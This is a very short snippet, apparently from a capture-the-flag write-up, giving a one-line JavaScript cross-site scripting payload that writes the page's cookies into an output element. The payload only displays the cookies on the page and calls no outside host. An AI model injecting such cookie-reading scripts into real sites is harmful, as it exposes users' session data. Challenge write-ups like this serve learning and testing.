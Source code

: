 This payload solves the XSS challenge.

```js
document.getElementById('output').innerHTML = document.cookie; 
```
